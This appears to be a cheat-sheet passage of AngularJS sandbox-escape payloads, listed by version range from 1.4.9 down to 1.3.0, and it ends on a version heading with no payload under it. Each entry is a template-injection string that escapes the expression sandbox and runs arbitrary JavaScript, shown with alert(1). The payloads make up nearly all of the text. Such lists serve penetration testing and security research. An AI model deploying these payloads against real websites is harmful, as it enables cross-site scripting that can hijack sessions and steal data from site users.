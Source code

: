 AngularJS 1.4.0 - 1.4.9

```javascript
{{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}}
```

AngularJS 1.3.20

```javascript
{{'a'.constructor.prototype.charAt=[].join;$eval('x=alert(1)');}}
```

AngularJS 1.3.19

```javascript
{{
    'a'[{toString:false,valueOf:[].join,length:1,0:'__proto__'}].charAt=[].join;
    $eval('x=alert(1)//');
}}
```

AngularJS 1.3.3 - 1.3.18

```javascript
{{{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;
  'a'.constructor.prototype.charAt=[].join;
  $eval('x=alert(1)//');  }}
```

AngularJS 1.3.1 - 1.3.2

```javascript
{{
    {}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;
    'a'.constructor.prototype.charAt=''.valueOf;
    $eval('x=alert(1)//');
}}
```

AngularJS 1.3.0

```javascript
{{!ready && (ready = true) && (
      !call
      ? $$watchers[0].get(toString.constructor.prototype)
      : (a = apply) &&
        (apply = constructor) &&
        (valueOf = call) &&
        (''+''.toString(
          'F = Function.prototype;' +
          'F.apply = F.a;' +
          'delete F.a;' +
          'delete F.valueOf;' +
          'alert(1);'
        ))
    );}}
```

AngularJS 1.2.24 - 1.2.29
